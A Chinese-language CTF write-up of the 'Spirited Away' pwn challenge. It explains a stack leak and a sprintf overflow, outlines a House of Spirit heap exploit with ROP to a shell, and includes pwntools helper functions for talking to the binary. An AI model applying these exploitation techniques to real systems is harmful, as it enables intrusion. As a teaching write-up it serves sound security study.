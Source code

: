 # Spirited Away
神寻...谷歌翻译 挺给力的...结果居然变成了千与千寻...
感觉还是神寻好.
感觉找到了house of spirit 的发源地

```s
➜  Desktop checksec spirited_away 
[*] '/home/n132/Desktop/spirited_away'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```
简单来说这个是个留言系统...
留下名字 年龄 观看理由 评价输出一遍之后问你是不是还要留言

主要的漏洞点有两个:
* reason在stack 上但是一次也没有memset为0可以通过设置reason的长度泄露stack & base of libc
* 溢出漏洞
`sprintf(&v1, "%d comment so far. We will review them as soon as we can", cnt);`
`char v1; // [esp+10h] [ebp-E8h]`
`size_t nbytes; // [esp+48h] [ebp-B0h]`
这里只要len v1 大于1那么就会溢出到nbytes导致name 和 comment可以溢出

## 利用思路
* 留言100次将nbytes覆盖为0x6e（如果我没记错）
* 这样comment可以溢出到buf指针做到任意地址free
* 利用reason在栈上构造`chunk`的head和`next_chunk`的head
* house of spirit 控制 reason内开始长度为0x6e的区域
* rop to get shell

## 遇到的一点小麻烦
* 因为用的是ubuntu 16 开始的时候用env={'LD_PRELOAD'...}做然后用的system('/bin/sh')发现本机都pwn不掉...后来尝试了一下execve就可以了
* 本地可以pwn远端打不下来...发现直接用stack 上随便的libc内地址玄学地本机和远端不一样导致libc基址计算错误...改用另一个地址就可以了..
* 虽然远端很慢...千万不要边打边看视频打通之后立刻就断掉了...然后我傻逼的以为自己还有哪里错了
做这题主要困在这些小麻烦上.../捂脸哭

## exp

```python
from pwn import *
def sname(name):
	p.readuntil("\nPlease enter your name: ")
	p.send(name)
def sage(age):
	p.sendlineafter("Please enter your age: ",str(age))
def sr(reason):
	p.sendafter("Why did you came to see this movie? ",reason)
def sc(comment):
	p.sendlineafter("Please enter your comment: ",comment)
def raw(reason='nier',name='nier',age=1,comment="nier"):
	sname(name)
	sage(age)
	sr(reason)
	sc(comment)
def sall(reason='nier',name='nier',age=1,comment="nier"):
	sname(name)
	sage(age)
	sr(reason)
	sc(comment)
```

[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert